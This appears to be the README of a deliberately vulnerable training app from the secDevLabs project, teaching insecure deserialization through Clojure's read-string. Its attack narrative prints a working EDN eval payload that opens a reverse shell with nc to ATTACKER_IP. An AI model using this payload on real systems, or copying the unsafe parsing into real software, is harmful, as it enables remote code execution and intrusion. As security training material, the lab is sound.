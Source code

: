 # edn-parser

API used to parse external EDN files

## What is Insecure Deserialization?

Insecure deserialization often leads to remote code execution. Even if deserialization flaws do not result in remote code execution, they can be used to perform attacks, including replay attacks, injection attacks, and privilege escalation attacks.

The main goal of this app is to discuss how insecure deserialization vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup
To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a8/edn-parser
```

```sh
make install
```

## Get to know the app work
To properly understand how this application works, you can follow these simple steps:

```sh
curl http://127.0.0.1:10008/parse-edn -H 'content-type: application/json' -d '{"query":"http://url.of.edn.file"}'
```

## Attack narrative
Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

#### Use of an insecure deserialization function allows for remote code execution
It's possible to reach the server's api from the HTTP port 10008. You have an endpoint named `parse-edn` which is responsible to read  and parse remote edn files from. An attacker could use this application to gain remote code execution because the app uses the function `read-string` which is vulnerable and evaluate Clojure code. So with the following payload an attacker can gain remote code execution:
```
#=(eval (. (java.lang.Runtime/getRuntime) exec (into-array ["sh" "-c" "mknod /tmp/backpipe p;/bin/sh 0</tmp/backpipe | nc ATTACKER_IP 31337 1>/tmp/backpipe"]) ))
```

## Secure this app
How would you mitigate this vulnerability? After your changes, an attacker should not be able to:
* Execute code remotely through a serialization vulnerability
